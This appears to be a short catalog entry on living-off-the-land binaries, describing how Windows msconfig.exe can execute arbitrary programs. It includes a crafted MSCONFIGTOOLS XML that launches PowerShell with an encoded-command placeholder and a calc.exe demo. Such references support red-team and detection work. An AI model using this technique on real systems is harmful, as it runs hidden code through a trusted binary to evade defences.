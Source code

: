 ## Msconfig.exe

* Functions: Execute

```
Msconfig.exe -5  
 
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken


Resources:
* https://twitter.com/pabraeken/status/991314564896690177

Full path:
```
c:\windows\system32\msconfig.exe
```

Notes:
* Prerequisites
add a crafted .xml in System32

```
<?xml version="1.0" ?> 
<MSCONFIGTOOLS> 
<a NAME="LOLBin" PATH="%windir%\System32\WindowsPowerShell\v1.0\powershell.exe" 
DEFAULT_OPT="-nop -sta -enc -w 1 YOURBASE64" ADV_OPT="-command calc.exe" HELP="LOLBin MSCONFIGTOOLS"/> 
</MSCONFIGTOOLS>
```
 
